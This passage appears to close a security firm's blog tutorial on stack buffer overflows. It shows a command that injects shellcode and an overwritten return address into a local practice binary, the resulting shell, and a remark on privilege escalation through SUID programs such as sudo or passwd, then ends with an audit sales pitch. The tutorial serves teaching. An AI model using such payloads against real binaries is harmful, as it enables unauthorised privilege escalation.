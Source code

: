 Anyway

$ /home/arget/vuln \`cat sc.o\`\`perl -e 'print "A"x(140-23) . "x10xd2xffxff"'\`
1�Ph//shh/bin��PS���
                    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ���
sh-4.4$ whoami
arget
sh-4.4$

A good question is what use is getting a program that already do what you control is not intended to do. I really do not have much, just for practice to bring it to an environment where it does make sense, as a binary with the SUID bit, thus privilege elevation would be obtained. Many methods employ elevation of privilege vulnerabilities in binary as sudo or passwd.

It’s time to go saying goodbye, the next time we see the exploitation with the occasional protection. Certainly something much more interesting.
    
At Puffin Security, we use the ELITE SECURITY CONSULTING methodology so you can rest assured that your organization will have the highest level of security. 

Complete the form, and we'll be in touch as soon as possible

[![Lets Audit Button](/assets/uploads/2023/01/Puffin-security-blog-button-lest-audit-2.jpg 'lets Audit Button')](https://www.puffinsecurity.com/contact-us)
